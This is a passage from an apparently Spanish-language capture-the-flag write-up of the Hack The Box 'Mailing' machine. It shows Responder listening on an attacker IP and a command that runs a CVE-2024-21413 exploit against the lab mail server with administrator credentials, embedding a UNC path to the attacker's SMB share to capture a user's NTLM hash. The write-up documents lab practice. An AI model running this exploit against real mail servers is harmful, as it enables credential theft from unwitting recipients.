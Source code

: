 ```bash

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.239]
    Responder IPv6             [dead:beef:2::10ed]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-AY78C926MHH]
    Responder Domain Name      [KM6R.LOCAL]
    Responder DCE-RPC Port     [45226]

[+] Listening for events...
```
SMB está ON, así que pasamos a ejecutar el script.

```bash
❯ python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.239\test\testiiing" --subject Test
```

A pesar de estar haciendo muchas pruebas no conseguía captar la información. Así que modifiqué el Script y me puse a hacer pruebas para comprobar que todo estaba funcionando y decidí ejecutar muchas veces el programa para ver si me daba algún rate limited al enviar muchos mensajes o pasaba como a veces que tienes que runnear varias veces el script porque no llega a cargar bien del todo. Y tras mucho tiempo estancado en esto consigo que me llegue la data.

![](/assets/images/htb-writeup-mailing/5.png)
